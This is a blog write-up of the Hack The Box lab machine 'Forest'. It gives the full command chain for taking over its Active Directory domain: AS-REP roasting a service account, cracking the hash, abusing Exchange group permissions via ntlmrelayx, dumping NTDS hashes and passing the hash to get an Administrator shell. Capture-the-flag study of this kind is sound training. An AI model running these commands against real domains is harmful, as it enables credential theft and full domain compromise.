 ```yaml
---
permalink: /posts/HTB/Forest
title: "HTB Forest Write-up"
header-img: "/assets/images/HTB/Forest/InfoCard.jpg"
header:
  teaser: "/assets/images/HTB/Forest/InfoCard.jpg"
description: "Hackthebox's Forest is an easy-rated Windows box that acts as the domain controller for the htb.local domain."
categories: 
  - CTF
date: 2020-03-21 17:15
tags: HTB Windows AD DACL BloodHound
---
```


# Hackthebox - Forest - 10.10.10.161
## Summary
Today [Hackthebox](https://www.hackthebox.eu) retired Forest, an easy-rated Windows box that acts as the domain controller for the htb.local domain. This was a great learning experience since Forest was my first Windows Domain Controller, and I got a chance to learn how to use Impacket's AD-oriented scripts, as well as getting familiar with BloodHound and SharpHound.
Here's my write-up.
>*Note that the screenshots are taken today (2020-03-21) because I didn't do a proper write-up during my first run on Postman.*

![InfoCard](/assets/images/HTB/Forest/InfoCard.jpg)

## Enumeration

For an initial scan I used the following nmap command 
```
nmap -A -sV -o nmapinitial -T4 10.10.10.161
```
![nmapinitial01](/assets/images/HTB/Forest/nmapinitial01.jpg)
![nmapinitial02](/assets/images/HTB/Forest/nmapinitial02.jpg)

The nmap scan reveals that the machine is a domain controller for the htb.local domain judging by the 2 LDAP services ports (389 and 3268).
Even if the smb port is opened, attempting to list shares using smbclient does not list anything without proper authentication. 

While nmap was running, I also kicked off enum4linux to get a better idea of users, groups, service accounts, and accessible network shares.
```
enum4linux -o -U -G -S -P 10.10.10.161 > enum4linux.txt
```
Once finished, enum4linux returns some useful information about the target.
For starters, it looks like there's no propper password complexity policy put in place, meaning that, if I'm able to obtain a hash, it should be failry easy to crack since nothing is forcing users to set complex passwords.

![enum4linux_passpolicy](/assets/images/HTB/Forest/enum4linux_passpolicy.jpg)

The local user accounts where retunred, including a service account - svc-alfresco

![enum4linux_users](/assets/images/HTB/Forest/enum4linux_users.jpg)

This also shows the fact that the target is running Microsoft Exchange Server, which might be a path for privilege escalation.

## Initial Foothold and User Flag

After reading a bit through the [Forest HTB Forum](https://forum.hackthebox.eu/discussion/2319/forest#latest) thread, I saw a few hints pointing towards Impacket's GetNPUsers.py script (more examples on kerberos attacks can be found [here](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)).
I've tried running the script against all the users i've found using enum4linux, and the only one that did not require Kerberos pre-authentication was svc-alfresco os I was able to get its TGT with the following command 
```
python ~/Scripts/Impacket/impacket-0.9.20/examples/GetNPUsers.py htb.local/svc-alfresco -no-pass -dc-ip 10.10.10.161 -format john
```
![TGThash](/assets/images/HTB/Forest/TGThash.jpg)

Which I then proceede to crack using john.
![john](/assets/images/HTB/Forest/john.jpg)

It looks like the password for svc-alfresco is __s3rvice__ and I am able to use it with evil-winrm 
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice' -s './ps1_scripts/' -e './exe_files/'
```
and get the user flag.

![userflag](/assets/images/HTB/Forest/userflag.jpg)

## Privilege escalation

Someone on the forum mentioned that [BloodHound's](https://github.com/BloodHoundAD/BloodHound) SharpHound.exe ingestor (I couldn't get SharpHound.ps1 to run through evil-winrm) can be used to get a better idea of what the shortest route to DA would be.
So i booted my Windows VM, started CMD as svc-alfresco and executed SharpHound.exe.
![SharpHound_exe](/assets/images/HTB/Forest/SharpHound_exe.jpg)

I then move the resulting .zip file to my Kali VM, fire up neo4j console and bloodhound, and import the zip file into BloodHound for querying.
The "Find Shortest Paths to Domain Admins" query shows that I can use the fact that svc-alfresco is a member of the Account Operators group to add either the service account itself or a newly created account to the Exchange Windows Permissions group, whose WriteDacl access on the Domain object in Active Directory can be used to escalate to DA, as outlined [here](https://www.andreafortuna.org/2019/01/30/abusing-microsoft-exchange-for-privilege-escalation-any-user-may-obtain-domain-admin-privileges/).

![BloodHound](/assets/images/HTB/Forest/BloodHound.jpg)

I picked the route of creating a separate user account that I can add to the Exchange Windows Permissions group.
I connect with evil-winrm as svc-alfresco to create the following user account and add it to all the required groups:
```
New-ADUser -Name "TestUser" -Type User -AccountPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force) -Enabled $True
Add-AdGroupMember -Identity  "Remote Desktop Users" -Members TestUser
Add-AdGroupMember -Identity  "Remote Management Users" -Members TestUser
Add-AdGroupMember -Identity  "Exchange Windows Permissions" -Members TestUser
```
After that, I can use Impacket's ntlmrelayx.py to escalate TestUser's privileges
```python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user TestUser```
![TestUser_privesc](/assets/images/HTB/Forest/TestUser_privesc.jpg)

Now I can use Impacket's secretsdump.py with TestUser's credentials to dump all the password hasses contained in the NTDS.DIT file on 10.10.10.161.
![hashes](/assets/images/HTB/Forest/hashes.jpg)

With the Admin hash obtained through secretsdump.py, I can use wmiexec.py to connect as Administrator 
```
python wmiexec.py -hashes aad..4ee:326..ea6 Administrator@10.10.10.161
```

![adminroot](/assets/images/HTB/Forest/adminroot.jpg)

And remove the TestUser account.

![delete_testuser](/assets/images/HTB/Forest/delete_testuser.jpg)
